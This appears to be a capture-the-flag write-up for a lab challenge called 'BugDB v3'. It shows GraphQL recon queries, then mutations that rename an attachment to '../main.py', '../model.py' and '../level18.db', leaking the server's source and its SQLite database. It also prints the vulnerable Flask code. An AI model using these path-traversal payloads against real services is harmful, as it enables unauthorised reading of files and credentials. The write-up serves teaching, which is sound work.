









# BugDB v3

This is a cool CTF that illustrates how GraphQL can be used for arbitary file reading. 

Essentially the main vulnerability here is that the API does not restrict users from accessing file systems outside what they actually need - which is what will allow us to read senstive data from the database!!!

## Recon

### query

By referencing the schema (pro-tip: graphQL auto-complete is a lifesaver!) we are able to get a gerneral idea of how the data is structured:

```graphql
query{
  user{
    edges{
      node{
        id
        username
        bugs{
          edges{
            node{
              id
              private
              reporterId
              attachments{
                edges{
                  node{
                    id
                    bugId
                    filename
                  }
                }
              }
            }
          }
        }
      }
    }
  }
}
```



Important things to note are that their are 2 users, they have uploaded attachments, and these attachments have an ID.

### ### Mutations

By making a quick mutation to attach a file we can see that it is easy to add infomation to the bugs that have been submitted by Admin and User:

```graphql
mutation{
  attachFile(bugId:1, contents:"test"){
    ok
  }
}
```



And make a query again, will see a new attachment is available.



So what good is this to us? Well if you navigate to the attachment via a path in the URL then we can see the data we submitted appears... very cool and very dangerous! 

http://127.0.0.1/xxxxxxxxxx/attachments/1



### modifyAttachment

So if we can add any data we want what happens if we modify the data we write to attempt a path traversal?

```graphql
mutation{
  modifyAttachment(id:1, filename:"../main.py"){
    ok
  }
}
```





Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1



We get the whole [main.py](./main.py) file!!!!!

```python
from flask import Flask, abort, redirect, request, Response 
from flask_graphql import GraphQLView 
from model import db_session, Attachment 
from schema import schema 

app = Flask(__name__) 

@app.route('/') 
def main(): 
  return 'GraphiQL' 

@app.route('/attachment/')
@app.route('/attachments/') 
def attachment(id): 
  attachment = Attachment.query.filter_by(id=id).first() 
  return file('attachments/%s' % attachment.filename, 'r').read() 

app.add_url_rule('/graphql', view_func=GraphQLView.as_view('graphql', schema=schema, graphiql=True, context={'session': db_session})) 

if __name__ == "__main__": 
  app.run(host='0.0.0.0', port=80) 
```

### Read model

So at the top we can see this app is importing `db_session` from `model`... which is definitely worth us taking a look at.

```graphql
mutation{
  modifyAttachment(id:1, filename:"../model.py"){
    ok
  }
}
```

Go read the attachment again.

http://127.0.0.1/xxxxxxxxxx/attachments/1



Now we have the [model.py](./model.py) file.

```python
from sqlalchemy import create_engine 
from sqlalchemy.ext.declarative import declarative_base 
from sqlalchemy.orm import relationship, scoped_session, sessionmaker 
from sqlalchemy import Column, DateTime, ForeignKey, Boolean, Integer, Text, func, String 

engine = create_engine('sqlite:///level18.db', convert_unicode=True) 
db_session = scoped_session(sessionmaker(autocommit=False, autoflush=False, bind=engine)) 
Base = declarative_base() 
Base.query = db_session.query_property() 

class User(Base): 
  __tablename__ = 'users' 
  id = Column(Integer, primary_key=True) 
  username = Column(String(255)) 
  password = Column(String(255)) 
  bugs = relationship('Bug', primaryjoin='Bug.reporter_id==User.id') 

class Bug(Base): 
  __tablename__ = 'bugs' 
  id = Column(Integer, primary_key=True) 
  reporter_id = Column(Integer, ForeignKey('users.id')) 
  reporter = relationship(User, primaryjoin=reporter_id == User.id) 
  text = Column(Text(65536)) private = Column(Boolean()) 
  attachments = relationship('Attachment', primaryjoin='Attachment.bug_id==Bug.id') 

class Attachment(Base): 
  __tablename__ = 'attachments' 
  id = Column(Integer, primary_key=True) 
  bug_id = Column(Integer, ForeignKey('bugs.id')) 
  bug = relationship(Bug, primaryjoin=bug_id == Bug.id) 
  filename = Column(String(255))
```

Now we see that `engine` is set to `sqlite:///level18.db`which looks realllllly interesting. So if we try to read this using the same path traversal.....

```graphql
mutation{
  modifyAttachment(id:1, filename:"../level18.db"){
    ok
  }
}
```

.... we get the FLAG!!!!

